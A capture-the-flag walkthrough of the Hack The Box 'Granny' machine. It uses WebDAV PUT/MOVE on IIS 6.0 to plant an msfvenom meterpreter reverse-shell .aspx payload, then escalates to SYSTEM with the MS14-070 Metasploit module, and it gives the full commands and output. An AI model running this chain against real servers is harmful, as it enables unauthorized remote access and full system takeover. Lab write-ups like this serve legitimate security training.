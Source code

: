 ```yaml
---
layout: writeup
title: Granny
description: "HTB writeup"
logo: /assets/img/writeups/granny_logo.png
show-avatar: false
permalink: /writeups/granny.html
OS: Windows
difficulty: Easy
release: 12 Apr 2017
creator: <a href="https://www.hackthebox.eu/home/users/profile/1">ch4p</a>
cleared: 12 Nov 2019
published: 2019 11 12
redirect_from: /walkthroughs/htb-granny.html
---
```


<h2 align="center">Enumeration</h2>

Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Tue Nov 12 17:01:01 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.080s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Tue, 12 Nov 2019 22:03:04 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 17:03:00 2019 -- 1 IP address (1 host up) scanned in 118.58 seconds
```

we see the only open port is **80** and if we navigate to the page we see a default "Under Construction" page. However we see from the scan that it using webDAV. So lets run **davtest**

![davtest](/assets/img/writeups/granny_davtest.png)

Looking at the output of running **nikto** we see that the server is running ASP.net.

```
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.15
+ Target Port: 80
+ GET Retrieved microsoftofficewebserver header: 5.0_Pub
+ GET Retrieved x-powered-by header: ASP.NET
<...>
```

However davtest shows us that we can't use PUT to upload an asp or aspx file. However running davtest with the -move flag

```
root@kali:~/HTB/Boxes/Granny# davtest -url http://10.10.10.15 -move                       <...>  
Sending test files (MOVE method)
<...>
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq_asp.txt
MOVE    asp     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq.asp                               <...>
http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq.cfm
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq_aspx.txt
MOVE    aspx    SUCCEED:
<...>
```

shows us that we can use MOVE to change a file extension to .asp or .aspx

With that knowledge, let's create an .aspx payload and upload it as a .html file and rename it to .aspx file

<h3 align="center">Explotation</h3>

Let's create a payload with **msfvenom**

```sh
root@kali:~/HTB/Boxes/Granny# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx -o hilbert.html                                     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2818 bytes 
Saved as: hilbert.html
```

Now we'll use **curl** to upload the file to the server and change the extension

```sh
root@kali:~/HTB/Boxes/Granny# curl http://10.10.10.15 --upload-file hilbert.html
root@kali:~/HTB/Boxes/Granny# curl -X MOVE --header 'Destination:http://10.10.10.15/hilbert.aspx' 'http://10.10.10.15/hilbert.html'
```

Then we will run **Metasploit** and use a multi hander to listen for our shell

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
```

Then we will direct our browser to hilbert.aspx to activate our reverse shell

```
[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Sending stage (180291 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.15:1031) at 2019-11-18 16:30:40 -0500

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

Next we will use exploit suggester to find a vulnerability we can use for privilege escalation

```
meterpreter > bg
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(multi/handler) > use 0
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```

The exploit that will work is "exploit/windows/local/ms14_070_tcpip_ioctl"

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > session -i 1
[-] Unknown command: session.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

We now have full access to the system and can read the user.txt and root.txt flags.
